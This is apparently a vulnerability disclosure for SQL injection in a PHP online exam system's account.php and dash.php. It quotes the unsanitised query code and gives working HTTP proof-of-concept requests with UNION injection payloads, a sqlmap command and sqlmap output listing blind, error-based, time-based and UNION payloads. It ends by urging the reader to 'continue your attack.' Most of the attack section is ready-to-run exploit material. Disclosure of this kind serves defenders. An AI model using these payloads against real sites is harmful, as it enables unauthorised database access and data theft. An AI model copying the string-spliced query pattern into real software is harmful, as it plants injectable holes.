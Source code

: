 # online-exam-mastering-system has  SQL injection vulnerability 

## supplier

https://code-projects.org/online-exam-mastering-system-php/

## Vulnerability file

account.php、dash.php

## describe

in account.php

~~~php+HTML
if(@$_GET['q']== 'result' && @$_GET['eid']) 
{
$eid=@$_GET['eid'];
$q=mysqli_query($con,"SELECT * FROM history WHERE eid='$eid' AND email='$email' " )or die('Error157');
echo  '<div class="panel">
<center><h1 class="title" style="color:#660033">Result</h1><center><br /><table class="table table-striped title1" style="font-size:20px;font-weight:1000;">';

~~~

We can control the parameters of q and EID, and there are no protective measures in the following SQL statements, so directly splicing SQL statements can cause SQL injection

# POC

~~~
GET http://127.0.0.1/account.php?q=result&eid=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,database(),NULL,NULL%23 HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=58cv9hn8ommu0em8roqc9alt9h
Connection: keep-alive


~~~



---

in dash.php

~~~php
<?php if(@$_GET['fid']) {
echo '<br />';
$id=@$_GET['fid'];
$result = mysqli_query($con,"SELECT * FROM feedback WHERE id='$id' ") or die('Error');
while($row = mysqli_fetch_array($result)) {
	$name = $row['name'];
	$subject = $row['subject'];
	$date = $row['date'];
	$date= date("d-m-Y",strtotime($date));
	$time = $row['time'];
	$feedback = $row['feedback'];
	
echo '<div class="panel"<a title="Back to Archive" href="update.php?q1=2"><b><span class="glyphicon glyphicon-level-up" aria-hidden="true"></span></b></a><h2 style="text-align:center; margin-top:-15px;font-family: "Ubuntu", sans-serif;"><b>'.$subject.'</b></h1>';
 echo '<div class="mCustomScrollbar" data-mcs-theme="dark" style="margin-left:10px;margin-right:10px; max-height:450px; line-height:35px;padding:5px;"><span style="line-height:35px;padding:5px;">-&nbsp;<b>DATE:</b>&nbsp;'.$date.'</span>
<span style="line-height:35px;padding:5px;">&nbsp;<b>Time:</b>&nbsp;'.$time.'</span><span style="line-height:35px;padding:5px;">&nbsp;<b>By:</b>&nbsp;'.$name.'</span><br />'.$feedback.'</div></div>';}
}?>
~~~

We can control the FID parameters artificially, and there are no protective measures in the following SQL statements, so directly splicing SQL statements can cause SQL injection

# POC

~~~
GET http://127.0.0.1/dash.php?q=3&fid=5589858b6c43b%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,database(),NULL,NULL--%20- HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=58cv9hn8ommu0em8roqc9alt9h
Connection: keep-alive

~~~

You can see that there is a database name in the return package, which causes SQL injection

# Exploit

~~~
sqlmap -r 1 --dbs
~~~

~~~
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: q=result&eid=1' OR NOT 5331=5331#
    Vector: OR NOT [INFERENCE]#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: q=result&eid=1' AND GTID_SUBSET(CONCAT(0x7171707071,(SELECT (ELT(5894=5894,1))),0x716b627871),5894)-- kXiK
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=result&eid=1' AND (SELECT 1313 FROM (SELECT(SLEEP(5)))qaUX)-- IUKU
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: q=result&eid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7171707071,0x614e76796d484f51794a647655646e43484876566e446e67764364464f4363704f585969526d707a,0x716b627871),NULL,NULL#
    Vector:  UNION ALL SELECT NULL,NULL,NULL,NULL,[QUERY],NULL,NULL#
---

~~~

use sqlmap to continue your attack.
